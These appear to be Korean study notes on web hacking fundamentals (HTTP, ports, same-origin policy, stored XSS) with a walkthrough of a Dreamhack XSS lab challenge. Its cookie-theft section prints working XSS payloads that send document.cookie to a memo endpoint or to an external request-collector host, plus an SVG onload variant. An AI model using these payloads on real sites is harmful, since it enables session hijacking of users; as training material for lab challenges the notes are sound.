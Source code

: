 # Web Hakcing

## STAGE 2 



## HTTP



    HTTP : 서버와 클라이언트의 데이터 교환을 요청하고 응답하는 형식의 
    정의를 한 프로토콜 중 하나이다.

    *웹 서버는 HTTP 서버를 HTTP 서비스 포트에 대기시킨다.
    =이러한 포트는 일바전으로 TCP/80 or TCP/8080 이다.


## Network Port/Service Port

    네트워크 포트 : 네트워크에서 서버와 클라이언트가 정보를 교환하는 
    추상화된 장소를 의미한다.

    *0번 부터 65535번까지, 총 65536개의 같은 수의 네트워크 포트를 사용한다.


    서비스 포트 : 네트워크 포트 중에서 특정 서비스가 점유하고 있는 포트를 말함.
    Ex) HTTP가 80번 포트를 점유하고 있다면 서비스 포트는 80번 포트가 된다.


## Request
 
    /index.html
    
    HTTP/1.1
    Host: dreamhack.io
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

## Response

    HTTP/1.1  200 ok

    
    Server: Apache/2.4.29 (Ubuntu)
    Content-Length: 61
    Connection: Keep-Alive
    Content-Type: text/html

    <!doctype html>
    <html>
    <head>
    </head>
    <body>
    </body>
    </html>



### `Same Origin Policy의 오리진

    
    오리진 : 프로토콜, 포트, 호스트로 구성이 됨.
    * 모두 일치해야 동일한 오리진이라고 할 수 있음.


![오리진](https://cdn.discordapp.com/attachments/956190154454876183/1022424599792726056/unknown.png)



### `XSS`



    XSS : 클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에
    악성 스크립트를 삽입을 하여서 이용자의 웹 브라우저에서 해당
    스크립트를 실행할 수 있다.



## `XSS 발생 종류와 설명`


 ![XSS](https://media.discordapp.net/attachments/956190154454876183/1022464035733635092/unknown.png?width=477&height=408)



 ## `XSS 스크립트의 예시`


+ 쿠키 및 세션 탈취 공격 코드


![쿠키/세션 탈취 공격 코드](https://cdn.discordapp.com/attachments/956190154454876183/1022466126434795570/unknown.png)


+ 페이지 변조 공격 코드/ 위치 이동 공격 코드


![페이지 변조 공격/위치 이동 공격](https://cdn.discordapp.com/attachments/956190154454876183/1022466146139639828/unknown.png)



### `Stored XSS`


    Stored XSS : 서버의 데이터베이스 또는 파일 등의 형태로 저장된
    악성 스크립트를 조회할 때 발생하는 XSS이다.

    Ex) 게시물/댓글에 악성 스크립트를 포함하여 업로드 하는 방식임.


### `XSS-1`

    / : 인덱스 페이지
    /vuln : 이용자가 입력한 값을 출력을 하는 것
    /meno : 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력
    /flag : 전달된 URL에 임의 이용자가 접속하게 함. 
      => 해당 이용자의 쿠키에는 FLAG가 존재함.


# 쿠키 탈취

## memo 페이지 사용

    flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면
    memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있음.

    <script>location.href = "/memo?memo="+document.cookie;</script>

## 웹 서버 사용

    외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있음
    flag 기능에서 다음과 같은 익스플로잇 코드를 입력하면,
    접속 기록에 포함된 FLAG를 확인할 수 있다.

    <script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>


`FALG page =>  <svg/onload=location="/memo?memo="+document.cookie;>`

    SVG 태그는 벡터 그래픽을 표현할 때 사용되는 데 이 태그를 이용하여 XSS 
    테스트가 가능하다.
















